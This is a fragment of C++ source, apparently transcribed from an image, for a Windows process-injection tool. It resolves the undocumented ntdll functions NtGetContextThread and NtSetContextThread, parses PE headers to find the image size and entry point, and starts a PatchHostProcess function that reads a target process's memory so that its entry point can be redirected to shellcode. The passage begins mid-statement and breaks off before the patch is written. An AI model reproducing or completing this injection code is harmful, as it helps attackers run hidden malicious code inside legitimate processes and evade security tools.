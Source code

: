 ```cpp 
    GetModuleHandleA("ntdll"),
    "NtGetContextThread"));
myNtSetContextThread fNtSetContextThread = (myNtSetContextThread)(GetProcAddress(
    GetModuleHandleA("ntdll"),
    "NtSetContextThread"));

DWORD GetSizeOfImage(BYTE* processImage)
{
    IMAGE_DOS_HEADER* dosHeader = NULL;
    IMAGE_NT_HEADERS* ntHeaders = NULL;

    dosHeader = (IMAGE_DOS_HEADER*)processImage;
    ntHeaders = (IMAGE_NT_HEADERS*)((BYTE*)processImage + dosHeader->e_lfanew);

    return ntHeaders->OptionalHeader.SizeOfImage;
}

DWORD GetEntryPoint(BYTE* processImage)
{
    IMAGE_DOS_HEADER* dosHeader = NULL;
    IMAGE_NT_HEADERS* ntHeaders = NULL;

    dosHeader = (IMAGE_DOS_HEADER*)processImage;
    ntHeaders = (IMAGE_NT_HEADERS*)((BYTE*)processImage + dosHeader->e_lfanew);

    return (ntHeaders->OptionalHeader.AddressOfEntryPoint);
}

PVOID PatchHostProcess(HOST* hostProcess, PVOID shellcodeAddress)
{
    // read enough bytes to get the size of image
    SIZE_T bytesRead = 0;
    BYTE* imageData = new(BYTE[SECTION_SIZE]);

    // both calls read the same chunk of same size because this readprocessmemory fails we change the size 
    if (!ReadProcessMemory(
        hostProcess->processHandle, 
        (LPCVOID)hostProcess->imageBaseAddress, 
        imageData,
        SECTION_SIZE, 
        &bytesRead) && bytesRead != SECTION_SIZE)
    {
        std::cout << "[!] failed to read process image headers" << std::endl;
        return NULL;
    }

    DWORD sizeOfImage = GetSizeOfImage(imageData);
    delete[] imageData;

    BYTE* processImage = new(BYTE[sizeOfImage]);
    if (!ReadProcessMemory(
        hostProcess->processHandle, 
        (LPCVOID)hostProcess->imageBaseAddress, 
        processImage,
        sizeOfImage, 
        &bytesRead) && bytesRead != sizeOfImage)
    {
        std::cout << "[!] failed to read process image" << std::endl;
        return NULL;
    }

    DWORD entryPoint = GetEntryPoint(processImage);
```